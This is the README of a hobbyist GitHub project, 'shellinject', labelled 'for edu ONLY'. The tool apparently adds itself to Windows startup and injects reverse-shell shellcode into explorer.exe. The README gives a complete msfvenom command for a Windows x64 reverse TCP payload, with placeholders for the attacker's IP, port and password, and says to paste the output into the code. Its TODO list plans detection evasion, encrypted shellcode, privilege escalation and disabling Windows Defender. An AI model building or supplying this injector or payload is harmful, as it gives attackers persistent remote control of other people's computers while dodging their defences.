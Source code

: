 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell + ONWORK builder to change the shell code and exec name and more in the future

------------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 



working on builder that take the shell code from txt file


for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to shellcode.h
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with ms_vs or g++  


i am working on a builder using gcc/g++ you can check it by the name builder.cpp/exe


i curently working in microsoft visual studio with builtin compiler and got some errors when compiling in g++


----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

--------------------------------------------------------
TODO : make hard to detect , make the shell code encrypted ,  make readme.md more beautiful (✿◡‿◡) ,make the shell code inject "vir.dll" 


ON_WORKrn: add priv esc ,disable windows defender :) , make a builder for script_kids (like you yes you the one how reading it)（￣︶￣）


i would be happy to get help thanks

----------------------------------------------------------------------------

why the code so shity : 1:becouse i make it in my free time and i am to lazy for makeing it beautiful ,2: shutup scrypt_kiddie


